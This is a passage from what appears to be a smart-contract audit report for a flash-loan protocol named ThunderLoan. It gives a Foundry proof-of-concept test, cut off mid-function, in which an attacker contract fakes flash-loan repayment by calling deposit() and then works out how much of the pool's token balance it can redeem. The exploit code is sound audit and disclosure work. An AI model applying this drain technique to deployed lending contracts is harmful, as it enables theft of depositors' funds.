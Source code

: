 Import the above contract inside ```test/unit/ThunderLoanTest.t.sol```.

```import { AttackerFlashLoanReceiver } from "../mocks/AttackerFlashLoanReceiver.sol";```

Inlcude the below test in ```test/unit/ThunderLoanTest.t.sol```.

Run the test by: ```forge test --mt test_FlashLoan_FakeRepaymentAndDrainFunds -vv```

```solidity
function test_FlashLoan_FakeRepaymentAndDrainFunds() public setAllowedToken hasDeposits {
    address attacker = makeAddr("attacker");
    uint256 ATTACKER_START_TOKEN_BALANCE = 10e18;
    tokenA.mint(attacker, ATTACKER_START_TOKEN_BALANCE);

    // Liquidity Provider deposited 1000 amount of tokenA
    // And gets Asset Token for tokenA = 1000 Asset Tokens
    // Exchange rate becomes = (3 + 1000) / 1000 = 1.003

    AssetToken at = thunderLoan.getAssetFromToken(tokenA);
    
    vm.startPrank(attacker);

    AttackerFlashLoanReceiver receiver = new AttackerFlashLoanReceiver(address(thunderLoan));

    // Now, the fees imposed on receiver contract will be 3 units for flash loan of 1000 units
    // flash loan = 1000 units, weth price of tokenA = 1 unit
    // total value of borrowed token = 1000 * 1 = 1000
    // therefore, fees = 0.3% of borrowed token = (0.3 * 1000) / 100 = 3 units
    uint256 FEES = 3e18;
    tokenA.transfer(address(receiver), FEES);       // Transfer 3 units to receiver contract to pay loan fees
    uint256 initAttackerBalance = tokenA.balanceOf(attacker);

    // DEPOSIT_AMOUNT = 1000 units of tokenA, therefore borrowing 1000 units of tokenA
    thunderLoan.flashloan(address(receiver), tokenA, DEPOSIT_AMOUNT, "");

    vm.stopPrank();

    // As during the executeOperation() function call, deposit function was called with
    // depositAmount = amount (flash loan) + fees = 1000 + 3 = 1003
    // and it was pretended to ThunderLoan that the amount was paid
    // but as the amount was deposited giving access to redeem amount = (flash loan amount + fees)     

    // Also new exchange rate will be initExchangeRate * (1000 + FEES) / 1000 = 1.006009
    
    // Also as amount was deposited, the total supply of asset token increaes by
    // depost amount / exchange rate = 1003 / 1.006009 = 997.008973080757726819
    // total supply of asset token = (1000 + 997.008973080757726819) = 1997.008973080757726819
    // Also increased the exchange rates
    // final exchange rate = 1.006009 * (1997.008973080757726819 + 3.009) / 1997.008973080757726819 = 1.007524807450945082

    uint256 finalExchangeRate = at.getExchangeRate();

    // max tokenA that can be drained
    uint256 maxTokenA = tokenA.balanceOf(address(at));
    uint256 amountOfAssetToken = maxTokenA * at.EXCHANGE_RATE_PRECISION() / finalExchangeRate;
    uint256 attackerAssetTokenBalance = at.balanceOf(address(receiver));

    if (attackerAssetTokenBalance < amountOfAssetToken) {
        amountOfAssetToken = attackerAssetTokenBalance;
    }

```